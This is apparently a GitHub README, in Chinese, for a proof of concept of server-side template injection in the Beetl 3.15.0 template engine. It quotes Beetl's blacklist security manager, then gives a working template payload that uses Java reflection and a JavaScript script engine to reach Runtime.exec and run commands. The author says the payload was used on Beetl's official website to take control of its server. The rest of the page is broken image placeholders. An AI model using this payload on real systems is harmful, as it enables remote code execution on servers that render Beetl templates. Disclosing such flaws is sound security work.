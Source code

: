 # Beetl-3.15.0-vuln-poc
Beetl直到最新版本都存在SSTI(模版注入)漏洞
- 对于安全管理器的策略采用的是黑名单的机制
```java
public class DefaultNativeSecurityManager implements NativeSecurityManager{

        @Override
        public boolean permit(String resourceId, Class c, Object target, String method){
                if (c.isArray()){
                        //允许调用，但实际上会在在其后调用中报错。不归此处管理
                        return true;
                }
                String name = c.getSimpleName();
                String pkg = c.getPackage().getName();
                if (pkg.startsWith("java.lang")){
                        if (name.equals("Runtime") || name.equals("Process") || name.equals("ProcessBuilder")
                                        || name.equals("System")){
                                return false;
                        }
                }
                return true;
        }
}
```
- 如果使用反射(java reflect)即可以绕过黑名单的一切策略
- poc
```java
${@Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("s='open -a Calculator';java.lang.Runtime.getRuntime().exec(s);")}
```
<img src="https://i.328888.xyz/2023/03/31/ilOcbN.png" alt="ilOcbN.png" border="0" />
- 拿官方的网站做例子
- 我输入了以下payload仅用于测试
<a href="https://imgloc.com/i/ilbloa"><img src="https://i.328888.xyz/2023/03/31/ilbloa.png" alt="ilbloa.png" border="0" /></a>
- 并成功
![Uploading image.png…]()拿到
![Uploading image.png…]()服务
![Uploading image.png…]()器
![Uploading image.png…]()的
![Uploading image.png…]()控制权限

